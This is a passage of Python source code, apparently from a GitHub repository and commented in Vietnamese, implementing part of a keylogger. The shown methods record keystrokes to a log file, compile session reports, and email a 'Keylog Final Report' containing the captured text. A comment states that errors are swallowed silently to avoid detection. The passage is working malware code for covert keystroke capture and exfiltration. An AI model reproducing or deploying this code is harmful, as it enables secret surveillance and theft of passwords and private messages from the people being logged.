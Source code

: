                     subject = f"Keylog Final Report - {timestamp}"
                    self.send_email(subject, self.full_log + self.current_text)
                STOP_EVENT.set()
                return False
            elif hasattr(key, 'char') and key.char is not None:
                self.current_text += key.char
            
            # Ghi buffer khi đầy
            if len(BUFFER) >= BUFFER_SIZE:
                self.flush_buffer()
                
        except Exception as e:
            # Silent fail để tránh detection
            pass
    
    def flush_buffer(self):
        """Ghi buffer vào file và upload"""
        try:
            if BUFFER:
                LOG_FILE.parent.mkdir(parents=True, exist_ok=True)
                
                # Đọc nội dung hiện tại
                content = ""
                if LOG_FILE.exists():
                    content = LOG_FILE.read_text(encoding="utf-8")
                
                # Thêm entries mới
                for entry in BUFFER:
                    content += entry + "\n"
                
                # Ghi file
                LOG_FILE.write_text(content, encoding="utf-8")
                print(f"Logged {len(BUFFER)} keystrokes")
                
                BUFFER.clear()
        except Exception as e:
            print(f"Error in flush_buffer: {str(e)}")
    
    def save_session_report(self):
        """Lưu báo cáo session"""
        try:
            report_file = LOG_FILE.parent / f"session_report_{int(time.time())}.log"
            
            # Tính thống kê
            end_time = datetime.now()
            duration = end_time - self.session_start
            total_keystrokes = len(LOG_FILE.read_text(encoding='utf-8').splitlines()) if LOG_FILE.exists() else 0
            